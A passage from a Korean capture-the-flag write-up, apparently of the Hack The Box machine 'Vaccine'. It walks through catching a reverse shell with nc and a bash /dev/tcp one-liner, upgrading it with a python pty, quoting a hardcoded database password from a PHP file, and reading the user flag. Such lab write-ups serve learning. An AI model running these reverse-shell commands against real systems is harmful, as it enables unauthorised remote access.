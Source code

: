 ``` bash
command standard output:
---
p
o
s
t
g
r
e
s
```

쉘이 따지긴 했는데 이 쉘에서 작업하는데는 무리가 있기 때문에 리버스 쉘을 실행시켜서 하자.

```bash
[Terminal 1]
root@kali:/# nc -lvnp 1234
listening on [any] 1234 ...

[Terminal 2]
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.14/1234 0>&1'

[Terminal 1]
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.46] 45048
bash: cannot set terminal process group (21800): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$ id
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
```

`postgres` 로 로그인되어 있다. 필요한 명령어들을 사용하기 위해 bash 쉘로 업그레이드 해주자.

&#10071; https://github.com/security-cheatsheet/reverse-shell-cheatsheet - 여러 언어로 리버스 쉘 실행

```bash
postgres@vaccine:/var/lib/postgresql/11/main$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```

웹 서버의 파일들 중 `dashboard.php`에 `postgres`의 계정정보가 있다.

```php
        try {
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
        }
```

`user.txt`를 찾아보자.

``` bash
postgres@vaccine:/var/lib/postgresql/11/main$ find / -name "user.txt" 2>/dev/null
/var/lib/postgresql/user.txt
postgres@vaccine:/var/lib/postgresql/11/main$ cat /var/lib/postgresql/user.txt
********************************
```

이제 이전문제와 같이 `root`로 권한을 상승시켜서 `root.txt`를 읽어야 한다.
